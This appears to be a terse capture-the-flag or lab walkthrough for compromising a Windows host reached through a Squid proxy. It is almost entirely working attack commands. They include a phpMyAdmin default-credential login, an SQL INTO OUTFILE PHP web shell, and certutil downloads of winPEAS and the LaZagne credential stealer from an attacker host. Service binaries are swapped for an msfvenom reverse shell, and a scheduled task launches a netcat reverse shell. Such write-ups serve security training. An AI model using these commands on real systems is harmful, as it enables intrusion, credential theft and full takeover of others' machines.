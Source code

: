 ### Hacktricks spose
```bash
❯ python3 spose.py --proxy http://192.168.59.189:3128 --target 192.168.59.189
Using proxy address http://192.168.59.189:3128
192.168.59.189 3306 seems OPEN 
192.168.59.189 8080 seems OPEN 
```
https://github.com/A1vinSmith/spose

### Curl
```bash
curl --proxy http://192.168.59.189:3128 http://192.168.59.189:8080
```

Working tho, Better to go with FoxyProxy. 

Also check another repo if Squid ask for Auth. https://github.com/A1vinSmith/Cloud-Hacking/tree/main/HackTheBox/Flustered#auth-squid

### Phpmyadmin
http://192.168.59.189:8080/phpmyadmin/index.php

root as default creds will let you in

### Phpinfo and shell
`C:/wamp/www/index.php`

```sql
SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE 'C:/wamp/www/alvin1.php';
```

### Foothold get
```
certutil -urlcache -f http://192.168.49.59/winPEASx64.exe winPEASx64.exe

certutil -urlcache -f http://192.168.49.59/lazagne.exe lazagne.exe
```

### winpeas
```bash
.\winPEASx64.exe cmd fast > C:/wamp/www/winpeas_fast

curl --proxy http://192.168.59.189:3128 http://192.168.59.189:8080/winpeas_fast > winpeas_fast
```

##### sed
```bash
sed -n -e 1,500p winpeas_fast       -> Kernel exploit
sed -n -e 500,1000p winpeas_fast
sed -n -e 1000,1500p winpeas_fast
sed -n -e 1500,2000p winpeas_fast   -> Unquoted path
```

```txt
Check if you can overwrite some service binary or perform a DLL hijacking, also check for unquoted paths https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#services
    ApacheHTTPServer(Apache Software Foundation - Apache HTTP Server)["C:\wamp\bin\apache\apache2.4.46\bin\httpd.exe" -k runservice] - Auto - Running
    Possible DLL Hijacking in binary folder: C:\wamp\bin\apache\apache2.4.46\bin (Everyone [AllAccess], Users [AppendData/CreateDirectories WriteData/CreateFiles])
    Apache/2.4.46 (Win64)
   =================================================================================================

    MySQL(MySQL)[C:\wamp\bin\mysql\mysql5.7.31\bin\mysqld.exe MySQL] - Auto - Running - No quotes and Space detected
    Possible DLL Hijacking in binary folder: C:\wamp\bin\mysql\mysql5.7.31\bin (Everyone [AllAccess], Users [AppendData/CreateDirectories WriteData/CreateFiles])
   =================================================================================================

    squidsrv(Squid for Windows)[C:\Squid\bin\Diladele.Squid.Service.exe] - Auto - Running - isDotNet
    Possible DLL Hijacking in binary folder: C:\Squid\bin (Users [AppendData/CreateDirectories WriteData/CreateFiles])
    Reduces bandwidth and improves response times by caching and reusing frequently-requested web pages.
```
    
```
move C:\wamp\bin\apache\apache2.4.46\bin\httpd.exe C:\wamp\bin\apache\apache2.4.46\bin\httpd.backup
certutil -urlcache -f http://192.168.49.59/httpd.exe C:\wamp\bin\apache\apache2.4.46\bin\httpd.exe

move C:\Squid\bin\Diladele.Squid.Service.exe C:\Squid\bin\Diladele.Squid.Service.backup
certutil -urlcache -f http://192.168.49.59/Diladele.Squid.Service.exe C:\Squid\bin\Diladele.Squid.Service.exe

move C:\wamp\bin\mysql\mysql5.7.31\bin\mysqld.exe C:\wamp\bin\mysql\mysql5.7.31\bin\mysqld.backup
certutil -urlcache -f http://192.168.49.59/mysqld.exe C:\wamp\bin\mysql\mysql5.7.31\bin\mysqld.exe


msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.49.59 LPORT=3306 -f exe -o httpd.exe
```
```
certutil -urlcache -f http://192.168.49.59/AppXSVC_poc_x64.exe AppXSVC_poc_x64.exe

.\AppXSVC_poc_x64.exe c:\windows\system.ini
```

### Stuck so go for hint
 Privilege Escalation

A scheduled task can be created to gain default permissions and another task can be created to gain SeImpersonatePrivilege. 

```
schtasks /query /fo LIST /v

PS C:\wamp\www> Get-ScheduledTask | select TaskName,State

C:\windows\tasks
```
# Root with unique powershell bypass skill
```
$TaskAction = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-Exec Bypass -Command `"C:\wamp\www\nc.exe 192.168.49.59 4444 -e cmd.exe`""
```

```
$TaskAction = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-Exec Bypass -Command `"C:\wamp\www\nc.exe 192.168.49.59 4444 -e cmd.exe`""
```
```
Register-ScheduledTask -Action $TaskAction -TaskName "GrantAllPerms1" -Principal $TaskPrincipal
```
